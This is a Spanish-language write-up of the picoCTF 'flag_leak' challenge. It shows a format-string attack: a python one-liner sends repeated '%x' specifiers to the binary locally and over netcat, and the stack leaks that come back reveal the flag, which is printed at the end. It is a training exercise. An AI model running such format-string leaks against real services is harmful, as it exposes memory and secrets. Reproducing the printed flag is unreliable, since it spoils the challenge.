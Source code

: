 ## Description

Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 49200`
#### Hints
- Format Strings
## Solución

```shell
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/flag_leak]
└─$ python3 -c 'print("%x"*60)' | ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
                                                                                                            
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/flag_leak]
└─$ nano flag.txt              
                                                                                                            
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/flag_leak]
└─$ python3 -c 'print("%x"*60)' | ./vuln
Tell me a story and then I'll tell you one >> Here's a story - 
ffaa81b0ffffffff8049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825f7f36f0080483386f6369707b4654436d6d75646c665f79a7d6761804c0008049430f7f36b60ffaa8298f7f12bf0f7ed98a0d544ad003e8804c000804943080494103e8804c000ffaa82988049418f7efa400003e8ffaa82b0
                                                                                                            
┌──(kali㉿kali)-[~/…/categorias/Binary_Explotation/parte_01/flag_leak]
└─$ python3 -c 'print("%x"*60)' | nc saturn.picoctf.net 63988
Tell me a story and then I'll tell you one >> Here's a story - 
ff9317c0ff9317e08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825e852ed00e83b3ab06f6369707b4654436b34334c5f676e3167346c466666305f3474535f315f6b63623261317d613235fbad2000784d56000e856a990804c00080494100804c000ff9318a880494182ff931954ff9319600ff9318c0

```

![[Pasted image 20241111105021.png]]
## Bandera
```css
flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
```
## Notas Adicionales

## Referencias
- 